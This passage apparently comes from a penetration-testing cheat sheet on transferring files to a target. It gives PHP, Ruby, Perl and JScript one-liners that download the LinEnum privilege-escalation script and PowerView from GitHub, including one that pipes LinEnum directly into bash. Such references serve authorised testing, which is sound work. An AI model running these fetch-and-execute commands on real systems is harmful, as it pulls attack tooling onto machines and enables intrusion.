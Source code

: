 ```shell
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
#### PHP Download a File and Pipe it to Bash (Fileless)

```shell
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```


## RUBY

### DOWNLOAD

```shell
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

## PERL

### DOWNLOAD

```shell
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## JAVASCRIPT

### DOWNLOAD

Créer le script
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

Download
```powershell
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
